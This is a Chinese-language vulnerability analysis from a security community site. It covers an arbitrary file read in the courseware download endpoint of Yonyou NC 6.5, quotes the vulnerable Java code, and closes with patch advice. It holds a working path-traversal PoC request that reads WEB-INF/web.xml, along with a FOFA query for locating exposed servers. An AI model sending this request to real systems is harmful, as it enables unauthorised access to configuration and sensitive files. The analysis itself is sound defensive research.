



# 用友 NC 任意文件读取漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/19317  
> **文章ID**: 19317

---

## 一、漏洞简介

用友NC系统download方法存在任意文件读取漏洞，攻击者可获取敏感信息。

## 二、影响版本

用友NC6.5

## 三、漏洞原理分析

漏洞位于CourseWareAction接口处，在包名称为hrss的目录下



漏洞代码如下



关键代码在下面

```
@Action
    public void download() {
        String fileName = this.request.getParameter("fileName");
        fileName = StringUtil.convertToCorrectEncoding(fileName);
        String strSrcDir = CodeGenUtils.buildFileURL(RuntimeEnv.getInstance().getNCHome(), new String[]{"ware", fileName});
        OutputStream out = null;
        BufferedInputStream bufferedInputStream = null;

        try {
            this.request.setCharacterEncoding("UTF-8");
            File file = new File(strSrcDir);
            FileInputStream fileInput = new FileInputStream(file);
            bufferedInputStream = new BufferedInputStream(fileInput);
            byte[] pngBytes = new byte[bufferedInputStream.available()];
            bufferedInputStream.read(pngBytes);
            this.response.reset();
            this.response.setCharacterEncoding("UTF-8");
            this.response.setContentType("APPLICATION/OCTET-STREAM");
            this.response.setHeader("Content-disposition", "attachment;filename=" + new String(fileName.getBytes("gb2312"), "ISO8859-1"));
            out = new BufferedOutputStream(this.response.getOutputStream());
            out.write(pngBytes);
            out.flush();
        } catch (Exception var11) {
            Exception e = var11;
            throw new LfwRuntimeException("指定位置找不到课件附件，下载失败！", e);
        } finally {
            IOUtils.closeQuietly(out);
            IOUtils.closeQuietly(bufferedInputStream);
        }

    }
}
```

关键漏洞代码： String strSrcDir = CodeGenUtils.buildFileURL(RuntimeEnv.getInstance().getNCHome(), new String[]{"ware", fileName});

代码直接获取了用户通过 fileName 参数传递过来的值，并将其用于构建文件路径

```
out = new BufferedOutputStream(this.response.getOutputStream()); 
 out.write(pngBytes); 
 out.flush();
```

最后将琦文件内容输出

接下来构造传参，调用download方法，然后传入filename即可

```
GET /portal/pt/downCourseWare/download?fileName=../webapps/nc_web/WEB-INF/web.xml&pageId=login  HTTP/1.1
Host: ip
```

## 四、总结

用友NC系统CourseWareAction接口的download方法造成了任意文件读取漏洞，攻击者可以获取敏感信息。

## 五、资产测绘

FOFA语法

```
app="用友-UFIDA-NC"
```

## 六、漏洞复现

POC

```
GET /portal/pt/downCourseWare/download?fileName=../webapps/nc_web/WEB-INF/web.xml&pageId=login  HTTP/1.1
Host: ip
```



## 七、修复建议

安装用友NC最新的补丁并更新到最新版本，对接口添加身份信息验证并修改对应的查询方法逻辑。
